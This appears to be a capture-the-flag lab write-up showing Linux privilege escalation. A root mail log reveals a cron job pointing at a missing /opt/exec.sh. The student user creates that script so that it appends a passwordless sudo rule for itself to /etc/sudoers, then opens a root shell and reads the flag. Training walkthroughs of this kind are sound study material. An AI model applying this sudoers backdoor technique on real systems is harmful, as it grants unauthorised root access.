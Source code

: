 # Logs that reveal attempt to run non existent program

A running Linux server is a complicated beast with dozens of things happening in the background. Admins might at times forget to clean up the system properly when they install/update/remove things. Most of the times, these scenarios can be debugged with error logs. For an attacker, these logs can be a treasure trove! It allows him to understand how everything is running in the server and what kind of errors are happening. Of course, these logs might sometimes be spread over the system in different formats based on the admin's personal preferences.

Check runing processes

```
student@attackdefense:~$ ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
student        1       0  0 07:06 ?        00:00:00 /bin/bash /startup.sh bash
root          12       1  0 07:06 ?        00:00:00 /usr/sbin/cron
root         124       1  0 07:06 ?        00:00:00 /usr/lib/postfix/sbin/master
student      125       1  0 07:06 ?        00:00:00 /usr/local/bin/ttyd -p 8000 bash
postfix      126     124  0 07:06 ?        00:00:00 pickup -l -t unix -u -c
postfix      127     124  0 07:06 ?        00:00:00 qmgr -l -t unix -u
postfix      133     124  0 07:07 ?        00:00:00 cleanup -z -t unix -u -c
postfix      134     124  0 07:07 ?        00:00:00 trivial-rewrite -n rewrite -t unix -u -c
postfix      135     124  0 07:07 ?        00:00:00 local -t unix
student      137     125  0 07:07 pts/0    00:00:00 bash
student      145     137  0 07:08 pts/0    00:00:00 ps -ef
```

`postfix/sbin/master` - mailing service is running as root

Check mail log

```
student@attackdefense:~$ tail -20 /var/mail/root
Return-Path: <root@c236e95ceed7>
X-Original-To: root
Delivered-To: root@c236e95ceed7
Received: by c236e95ceed7 (Postfix, from userid 0)
        id 367781AE89F; Sat, 10 Jul 2021 07:10:01 +0000 (UTC)
From: root@c236e95ceed7 (Cron Daemon)
To: root@c236e95ceed7
Subject: Cron <root@attackdefense> /bin/sh /opt/exec.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=US-ASCII
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <20210710071001.367781AE89F@c236e95ceed7>
Date: Sat, 10 Jul 2021 07:10:01 +0000 (UTC)

/bin/sh: 0: Can't open /opt/exec.sh
```

Recent error shows trying to access /opt/exec.sh

The program does not exist

```
student@attackdefense:~$ ls -la /opt/exec.sh
ls: cannot access '/opt/exec.sh': No such file or directory
```

We can create a new file with the same name in the same location to get this mail process to run it

The program adds to the sudoer file for student user to ru anything without a password

```
student@attackdefense:~$ printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /opt/exec.sh
student@attackdefense:~$ cat /opt/exec.sh
#!/bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

We now see this line added to the sudoers file

```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: /etc/init.d/postfix
    (root) NOPASSWD: ALL
```

We can now run any program as root such as /bin/bash

```
student@attackdefense:~$ sudo /bin/bash
root@attackdefense:~# id
uid=0(root) gid=0(root) groups=0(root)
root@attackdefense:~# cat /root/flag
dfba711fd731b0c2ebc1586b0484a8ec
```
